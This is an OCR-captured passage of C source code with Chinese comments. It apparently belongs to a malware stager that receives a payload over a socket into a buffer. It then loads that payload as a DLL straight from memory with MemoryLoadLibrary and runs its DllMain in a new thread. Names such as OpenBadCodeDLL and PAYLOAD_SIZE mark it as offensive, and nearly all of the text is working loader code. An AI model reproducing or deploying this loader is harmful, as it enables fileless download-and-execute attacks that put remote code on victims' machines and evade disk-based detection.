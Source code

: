 ```c
	ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);

	ZeroMemory(bFileBuffer,PAYLOAD_SIZE);

	
	ret = recv(socks,(PCHAR)bFileBuffer,5120,NULL);

	if (ret > 0)
	{
		closesocket(socks);
	}


	return TRUE;
} 

// 打开文件并获取大小
DWORD OpenBadCodeDLL(HANDLE & hBadCodeDll, LPCWSTR lpwszBadCodeFileName){
	DWORD dwHighFileSize = 0;
	DWORD dwLowFileSize = 0;
	// 打开文件
	hBadCodeDll = CreateFile(lpwszBadCodeFileName,GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL ,NULL);
	if(hBadCodeDll == INVALID_HANDLE_VALUE){
		return GetLastError();
	}
	dwLowFileSize = GetFileSize(hBadCodeDll,&dwHighFileSize);
	return dwLowFileSize;
}


int main()
{
	
	HMEMORYMODULE hModule;
	Module DllMain;
	bFileBuffer = new BYTE[PAYLOAD_SIZE];
	GetPEDLL();
	// 导入PE文件
	hModule = MemoryLoadLibrary(bFileBuffer);
	// 如果加载失败，就退出
	if(hModule == NULL){
		delete [] bFileBuffer;
		return -1;
	}
	// 获取msg导出函数地址
	DllMain = (Module)MemoryGetProcAddress(hModule,"DllMain");
	// 运行msg函数
	DllMain(0,0,0);
	// 释放资源
	DWORD dwThread;
	HANDLE hThread = CreateThread(NULL,NULL,(LPTHREAD_START_ROUTINE)DllMain,NULL,NULL,&dwThread);
	
	WaitForSingleObject(hThread,INFINITE);
	
	MemoryFreeLibrary(hModule);
	// 释放PE内存
	delete [] bFileBuffer;
	return GetLastError();
}

```

